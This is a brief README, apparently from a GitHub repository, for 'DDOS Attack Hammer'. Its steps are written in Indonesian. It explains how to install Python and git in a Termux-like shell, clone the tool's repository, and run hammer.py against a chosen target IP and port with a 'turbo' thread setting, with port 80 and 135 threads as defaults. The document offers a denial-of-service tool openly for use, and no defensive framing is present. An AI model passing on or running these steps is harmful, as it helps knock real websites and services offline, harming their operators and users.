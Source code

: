 # ddos
DDOS Attack Hammer By Satu My ID

Cara Menggunakan Tools Ini di Terminal

#pkg install update && upgrade <br>
#pkg install python <br>
#pkg install git <br>
#git clone https://github.com/satumyid/ddos <br>
#cd ddos <br>
#ls <br>
#python hammer.py -s iptarget -p port -t turbo <br>

default : -p 80 -t 135
